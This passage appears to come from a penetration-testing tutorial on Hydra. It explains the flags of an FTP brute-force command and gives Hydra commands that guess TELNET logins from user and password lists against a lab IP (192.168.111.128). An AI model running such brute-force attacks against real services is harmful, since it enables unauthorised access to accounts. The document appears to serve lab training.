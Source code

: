 

**Explanation:**

- `-L userlist.txt`: Specifies the file containing the usernames.

- `-P mypass.txt`: Specifies the file containing the passwords.

- `ftp://192.168.111.128:21`: Targets the FTP service at IP address 192.168.111.128 on port 21.

- `-t 4`: Specifies the number of parallel tasks (threads). You can adjust this number depending on your system's performance and the target server's response.

- `-vV`: Enables verbose output, showing detailed login attempts.




- For **🔌 TELNET**:

📜 Command:

  ```bash
  hydra -l userlist.txt -P mypass.txt telnet:// <TARGET_IP> -t 4 -vV -w 3
 
hydra -l userlist.txt -P mypass.txt telnet://192.168.111.128 -t 4 -vV -w 3
```

![alt text](screenshots/image-28.png)


